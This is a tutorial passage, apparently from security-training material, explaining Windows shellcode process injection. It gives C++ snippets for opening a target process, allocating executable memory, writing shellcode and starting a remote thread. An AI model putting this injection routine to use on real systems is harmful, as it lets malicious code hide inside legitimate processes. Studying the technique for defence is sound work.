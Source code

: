 ### Process Injection

**Definition** Process injection is commonly used as an overarching term to describe injecting malicious code into a process through legitimate functionality or components. At its most basic level, process injection takes the form of shellcode injection which can be broken into below steps:

1. Open a target process with all access rights: At step one of shellcode injection, we need to open a target process using special parameters. `OpenProcess` is used to open the target process supplied via the command-line.

```cpp
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

2. Allocate target process memory for the shellcode. At step two, we must allocate memory to the byte size of the shellcode. Memory allocation is handled using `VirtualAllocEx`. Within the call, the `dwSize` parameter is defined using the `sizeof` function to get the bytes of shellcode to allocate.

```cpp
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

3. Write shellcode to allocated memory in the target process. At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.

```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

4. Execute the shellcode using a remote thread o execute the shellcode residing in memory, we can use `CreateRemoteThread`; threads control the execution of processes.

```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```
